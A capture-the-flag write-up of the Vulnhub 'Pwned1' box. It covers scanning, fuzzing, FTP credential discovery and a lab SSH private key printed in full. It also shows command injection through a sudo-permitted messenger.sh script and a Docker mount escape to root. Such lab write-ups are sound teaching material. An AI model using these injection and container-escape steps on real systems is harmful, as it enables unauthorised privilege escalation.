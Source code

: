 ```yaml
---
layout: post
author: Razor
title: "Pwned1 Writeup"
categories: [Vulnhub ,Linux]
tags: [boot2root, medium-box, custom exploitation, privilage escalation, cve]     # TAG names should always be lowercase
image: assets/vulnhub_pwned1/bg.png
toc: true
---
```


## Introduction
This is partical room from tryhackme entitled "Pwned1" form vulnhub. Difficulty of This box is Intermediate and in this box you will learn all about Fuzzing diretory, Custom exploitation, and getting privilage of root. Okay no let's Pwn this box :p.

## Scanning 

As usual we will scan the ip of the box.
```
$ nmap -sV -sC 192.168.80.95  
Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-28 00:29 WIB
Nmap scan report for 192.168.80.95
Host is up (0.26s latency).
Not shown: 996 closed ports
PORT    STATE    SERVICE        VERSION
21/tcp  open     ftp            vsftpd 3.0.3
22/tcp  open     ssh            OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 fe:cd:90:19:74:91:ae:f5:64:a8:a5:e8:6f:6e:ef:7e (RSA)
|   256 81:32:93:bd:ed:9b:e7:98:af:25:06:79:5f:de:91:5d (ECDSA)
|_  256 dd:72:74:5d:4d:2d:a3:62:3e:81:af:09:51:e0:14:4a (ED25519)
80/tcp  open     http           Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Pwned....!!
777/tcp filtered multiling-http
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .                                                                              
Nmap done: 1 IP address (1 host up) scanned in 44.66 seconds
```
As you can see the box have 3 port open and 1 port filtered. Let's take a look at web apache.

![img](/assets/vulnhub_pwned1/bg.png)

Nothing to see here but let's take a look at robots.txt .
```
# Group 1

User-agent: *
Allow: /nothing
Allow: /hidden_text

```
There are have something interesting, i'm trying to fuzzing directory with gobuster in /hidden_text then i found secret.dic :
```
secret.dic : 

/hacked
/vanakam_nanba
/hackerman.gif 
/facebook
/whatsapp
/instagram
/pwned
/pwned.com
/pubg 
/cod
/fortnite
/youtube
/kali.org
/hacked.vuln
/users.vuln
/passwd.vuln
/pwned.vuln
/backup.vuln
/.ssh
/root
/home

```
So i'm trying to fuzz again and i found page in /pwned.vuln. 

![img](/assets/vulnhub_pwned1/bg_1.png)

in this case i'm don't do injection like sql but just take a look the source code and we found user ftp!.

![img](/assets/vulnhub_pwned1/bg_2.png)

Now i'm going to login ftpuser with password we found before.

![img](/assets/vulnhub_pwned1/bg_3.png)

## Getting User

As you can see we found folder secret which contains id_rsa and note.txt : 
- id_rsa 
```
-----BEGIN OPENSSH PRIVATE KEY-----
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
-----END OPENSSH PRIVATE KEY-----
```
- note.txt :

```
Wow you are here 

ariana won't happy about this note 

sorry ariana :( 

```

### User ariana

You can see we did it so easyly. Now lets login with user credential .

![img](/assets/vulnhub_pwned1/bg_4.png)

Then let's take a look at permission of the user ariana `sudo -l`.
```
ariana@pwned:/home$ sudo -l
Matching Defaults entries for ariana on pwned:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User ariana may run the following commands on pwned:
    (selena) NOPASSWD: /home/messenger.sh
```

There is permission of ariana to execute bash of selena. Content of messenger.sh is :

```bash
#!/bin/bash

clear
echo "Welcome to linux.messenger "
                echo ""
users=$(cat /etc/passwd | grep home |  cut -d/ -f 3)
                echo ""
echo "$users"
                echo ""
read -p "Enter username to send message : " name 
                echo ""
read -p "Enter message for $name :" msg
                echo ""
echo "Sending message to $name "

$msg 2> /dev/null

                echo ""
echo "Message sent to $name :) "
                echo ""
```
### User Selena

Now we can getting user selena with put `bash -i` in messenger to `selena`. 

![img](/assets/vulnhub_pwned1/bg_5.png)

## Privilage Escalation

As you can see selena have permission with docker, then we can escaping from docker and getting a root with this command `docker run -v /:/mnt --rm -it alpine chroot /mnt bash`:

![img](/assets/vulnhub_pwned1/bg_6.png)

Now we are root 

So thats it my writeup i hope you enjoy , Happy hacking :D